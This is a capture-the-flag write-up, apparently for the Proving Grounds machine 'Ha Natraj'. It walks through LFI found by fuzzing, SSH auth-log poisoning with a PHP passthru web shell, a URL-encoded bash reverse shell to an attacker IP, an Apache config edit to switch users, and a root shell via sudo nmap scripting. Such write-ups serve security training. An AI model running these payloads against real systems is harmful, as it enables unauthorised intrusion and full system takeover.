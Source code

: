 ```yaml
---
layout: default
title: Ha Natraj
parent: Proving Grounds Play
nav_order: 17
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.202.80
```

# Enumeration

---

## 80 - HTTP

### Wfuzz

Returns the directory _/console_

![wfuzz](../../../assets/images/ctfs/proving_grounds/ha_natraj/wfuzz.png)

_/console_ contains _file.php_ which is empty

Use wfuzz to fuzz a parameter and test for LFI.

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.202.80/console/file.php?FUZZ=../../../../../../../etc/passwd"
```

![fuzz_lfi](../../../assets/images/ctfs/proving_grounds/ha_natraj/fuzz_lfi.png)

This reveals the parameter _file_.

Confirm LFI vulnerability by displaying _/etc/passwd_

![etc_passwd](../../../assets/images/ctfs/proving_grounds/ha_natraj/etc_passwd.png)

Users: natraj and mahakal
{: .warn }

# Exploitation

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)

# Post-Exploitation

---

## Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check SUDO Permissions

```bash
sudo -l
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/ha_natraj/sudo_l.png)

We can exploit this to change the apache2.conf file to run as user 'mahakal' instead of 'www-data'.

If we restart Apache after doing this we will lose our shell, but when we regain our reverse shell connection we will be logged on as 'mahakal' instead of 'www-data'

```bash
# make a copy of apache2.conf and place in /var/tmp
cd /var/tmp
cp /etc/apache2/apache2.conf .

# Use sed to find the 'user' environment variable and replace with 'mahakal'
sed -i 's/User ${APACHE_RUN_USER}/User mahakal/g' apache2.conf

# Use sed to find the 'group' environment variable and replace with 'mahakal'
sed -i 's/Group ${APACHE_RUN_GROUP}/Group mahakal/g' apache2.conf

# Replace apache2.conf with the newly edited version
cp apache2.conf /etc/apache2/apache2.conf
```

Restart the Apache2 service.

```bash
sudo /bin/systemctl restart apache2
```

Regain our shell...

```bash
http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261%22
```

## Check Sudo Permissions for 'mahakal'

We are now logged on as _mahakal_ and can check this account's sudo permissions.

![mahakal_sudo](../../../assets/images/ctfs/proving_grounds/ha_natraj/mahakal_sudo.png)

If we create a binary in _/dev/shm_ and execute this with _nmap_ and the _--script_ flag will will have a root shell.

```bash
cd /dev/shm
echo 'os.execute("/bin/bash")' > rootshell
sudo /usr/bin/nmap --script=rootshell
```

![root](../../../assets/images/ctfs/proving_grounds/ha_natraj/root.png)
